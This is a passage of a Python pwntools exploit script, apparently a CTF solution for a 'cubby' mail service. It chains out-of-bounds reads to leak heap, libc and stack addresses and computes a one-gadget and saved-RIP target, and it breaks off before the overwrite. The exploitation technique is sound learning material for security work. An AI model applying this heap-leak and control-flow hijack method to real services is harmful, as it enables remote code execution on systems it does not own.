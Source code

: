 ```python
def read_mail(n, p=PRINT):
    sr('\n> ', '2', p)
    sr('cubby: ', '{}'.format(n), p)
    data = r.recvline(False)
    if p:
        print(data)
    return data

def delete_mail(n, p=PRINT):
    sr('\n> ', '3', p)
    sr('cubby: ', '{}'.format(n), p)

def get_addr(data):
    addr = data + '\0' * (8 - len(data))
    return u64(addr)

if __name__ == '__main__':

    ########
    # LEAK #
    ########

    # size big enough to avoid fastbins => have a pointer to the main arena,
    # which reside in the libc!
    CHUNK_SIZE = 256
    # cubby 0: placeholder for heap address to leak
    send_mail(0, CHUNK_SIZE, 'A' * 8)
    # place a malloc'ed address into cubby 0
    send_mail(ARRAY_SIZE // 8, CHUNK_SIZE, 'B' * 8)
    heap_addr = get_addr(read_mail(0))
    base_cubbies = heap_addr - 0x10 - CHUNK_SIZE
    cubbies_addr = base_cubbies - ARRAY_SIZE
    log.warn('Leaked heap_addr: 0x{:016x}'.format(heap_addr))
    log.warn(' => base_cubbies: 0x{:016x}'.format(base_cubbies))
    log.warn(' => cubbies_addr: 0x{:016x}'.format(cubbies_addr))

    # partial clean
    delete_mail(0)

    # leak libc_free address (a bin in the main arena)
    send_mail(0, 16, p64(base_cubbies + 32)) # @base_cubbies
    send_bad_mail(31)
    libc_addr = get_addr(read_mail(ARRAY_SIZE // 8))
    magic_gadget = libc_addr + MAGIC_OFFSET
    log.warn('Leaked libc_addr: 0x{:016x}'.format(libc_addr))
    log.warn(' => magic_gadget: 0x{:016x}'.format(magic_gadget))

    # clean
    delete_mail(0)
    send_mail(0, 16, p64(base_cubbies + 0x110))
    delete_mail(ARRAY_SIZE // 8)
    delete_mail(0)

    # leak stack addr
    send_mail(0,16, p64(libc_addr + ENVIRON_OFFSET))
    stack_addr = get_addr(read_mail(ARRAY_SIZE // 8))
    saved_rip = stack_addr + RIP_OFFSET
    log.warn('Leaked stack_addr: 0x{:016x}'.format(stack_addr))
    log.warn(' => &saved_rip:    0x{:016x}'.format(saved_rip))
    delete_mail(0)

    ################
    # trick malloc #
```